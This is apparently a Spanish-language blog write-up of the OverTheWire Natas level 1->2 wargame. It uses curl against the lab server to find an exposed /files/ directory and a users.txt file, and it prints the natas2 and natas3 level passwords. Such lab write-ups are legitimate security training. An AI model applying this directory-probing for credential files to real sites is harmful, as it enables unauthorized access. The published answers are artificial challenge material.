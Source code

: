 ```yaml
---
title: OverTheWire - Natas 1 -> 2 (sin navegador)
layout: post
post-image: /assets/images/gatohacker1.jpg 
description: La resolución de Natas 1 -> 2 sin el uso de un navegador web.
tags:
- OverTheWire
- Natas
- post
- writeups
---
```

# Información
---

```
Username: natas2
Password: ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi
URL:      http://natas2.natas.labs.overthewire.org
```

# Solución
---

Ejecutamos nuestro comando para visualizar la página con curl y el parámetro `-u` donde escribiremos el usuario y contraseña del reto.

```bash
curl -u natas2:ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi http://natas2.natas.labs.overthewire.org
```

El comando nos responde con el código fuente de la página. Vemos que al final nos indica que no hay nada en la página actual, pero también vemos una imagen que se encuentra dentro del directorio `files`.

![](/assets/images/images-otw-natas/natas1-2.png)


Si ejecutamos el mismo comando pero agregando `/files/` al final vemos una página, pero la página es muy dificil de leer.

```bash
curl -u natas2:ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi http://natas2.natas.labs.overthewire.org/files/
```

![](/assets/images/images-otw-natas/natas1->2-2.png)

Para solucionar esto podemos instalar un paquete llamado `html2text`.

```bash
sudo apt install html2text
```

Ahora volvemos a ejecutar el mismo comando anterior para ver la página `files` pero agregando un pipe y el comando `html2text`.

```bash
curl -u natas2:ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi http://natas2.natas.labs.overthewire.org/files/ | html2text 
```

![](/assets/images/images-otw-natas/natas1->2-3.png)

Todo se ve mejor pero esta cabecera de curl molesta.

![](/assets/images/images-otw-natas/natas1->2-4.png)

Podemos eliminarla agregando el parámetro `-s` al inicio del comando curl.

```bash
curl -s -u natas2:ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi http://natas2.natas.labs.overthewire.org/files/ | html2text
```

![](/assets/images/images-otw-natas/natas1->2-5.png)

Notamos un archivo de texto con el nombre **users.txt**.

![](/assets/images/images-otw-natas/natas1->2-6.png)

Agregamos el nombre del archivo al final de la dirección url en nuestro comando para visualizar su contenido.

```bash
curl -s -u natas2:ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi http://natas2.natas.labs.overthewire.org/files/users.txt | html2text
```

![](/assets/images/images-otw-natas/natas1->2-7.png)

Se ve un poco desordenado así que no agregaremos el comando `html2text`.

```bash
curl -s -u natas2:ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi http://natas2.natas.labs.overthewire.org/files/users.txt
```

![](/assets/images/images-otw-natas/natas1->2-8.png)

Notamos que ahí se encuentra la contraseña para natas3.

![](/assets/images/images-otw-natas/natas1->2-9.png)


# Contraseña
---

`sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14`

---

## [Anterior](/blog/level-0-1)
## [Siguiente](/blog/level-2-3)